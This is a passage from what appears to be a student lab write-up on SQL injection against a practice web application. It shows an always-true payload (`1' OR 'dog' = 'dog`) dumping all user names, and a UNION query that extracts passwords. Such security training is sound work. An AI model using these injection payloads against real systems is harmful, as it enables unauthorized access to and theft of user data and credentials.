     - This closely matches the results from Step 2 of the SQL script run on DB Fiddle, except for the id field. The application is designed to return the payload entered in this field:
      
      first_name | last_name 
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith

3. Use another always true payload to test  the unintended use of the web application.

    - The third query was `select first_name, last_name from users where user_id = '1' OR 'dog' = 'dog'`.
      
    - Since the payload is all the data between the first and last single quote, the payload is `1' OR 'dog' = 'dog`.
      
    - The results will be as follows:     
      
      ```
      ID: 1' OR 'dog' = 'dog
      First name: admin
      Surname: admin

      ID: 1' OR 'dog' = 'dog
      First name: Gordon
      Surname: Brown

      ID: 1' OR 'dog' = 'dog
      First name: Hack
      Surname: Me

      ID: 1' OR 'dog' = 'dog
      First name: Pablo
      Surname: Picasso

      ID: 1' OR 'dog' = 'dog
      First name: Bob
      Surname: Smith
      ```
  
    - The results match the script from DB Fiddle:   
  
      first_name | last_name
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith   
          
4. **Bonus**: Use a payload to pull data from hidden fields. 

    - The query was `select first_name, last_name from users where user_id = '1' UNION select first_name, password from users where '1' = '1'`.
     